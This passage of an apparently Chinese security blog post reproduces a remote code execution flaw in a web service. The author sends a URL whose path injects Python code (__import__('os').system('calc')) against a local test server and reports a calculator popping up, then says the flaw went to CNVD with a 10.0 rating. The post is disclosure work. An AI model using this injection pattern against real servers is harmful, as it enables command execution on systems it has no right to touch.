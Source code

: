 # [](#header-1)0x04、漏洞复现

笔者在本地8001端口上搭建了该Web服务，并访问  
```url
http://127.0.0.1:8001/index+__import__('os').system('calc').html
```

服务端直接弹出计算器，证明存在RCE漏洞，直接拿下. 互联网案例就不放出来了  
![avatar](/image/2024-03-23-7.png)  




后续已经交CNVD和一些SRC了，等审核完再更新吧. 由于这段时间学业较忙，因此后面没什么时间更了  

然后经历一个多月后，CNVD审核结果已经出来了，成功拿到了满分10.0分的危害

![avatar](/image/2024-03-23-10.png)  





-----

于 2024 4 12日更新，添加了审核状态

于 2024 5 13日更新，添加证书

